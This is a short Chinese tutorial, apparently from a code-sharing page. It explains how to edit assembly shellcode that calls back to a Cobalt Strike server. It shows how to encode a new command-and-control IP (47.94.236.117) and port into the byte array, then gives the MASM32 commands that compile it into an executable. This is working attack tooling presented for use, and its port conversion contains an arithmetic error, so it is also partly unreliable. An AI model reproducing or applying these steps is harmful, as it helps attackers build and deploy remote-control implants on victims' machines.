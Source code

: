 对于汇编代码.asm
可以使用MASM32工具，链接打包成exe可执行文件

参考下篇文章，汇编上线CS：
<https://forum.butian.net/share/997>
<https://forum.butian.net/share/1536>

在已有的CS上线的汇编上修改：
```
原IP地址：
30h,2fh,2dh,30h,32h,2fh,2dh,33h,2dh,31h,2fh,33h,00h
10.130.4.204
30=1，2f=0，2d=.，32=3，33=4，31=2 依次内推
改成IP：47.94.236.117
33h,36h,2dh,38h,33h,2dh,31h,32h,35h,2dh,30h,30h,36h,00h

端口：
82=52h 改成 88=28h

替换即可

编译链接打包器MASM32：https://www.masm32.com/ 安装后bin目录下执行
编译为 obj 文件：ml /c /coff /Cp test.asm
生成 exe 文件：link /subsystem:console /libpath:c:\masm32\lib test.obj
```
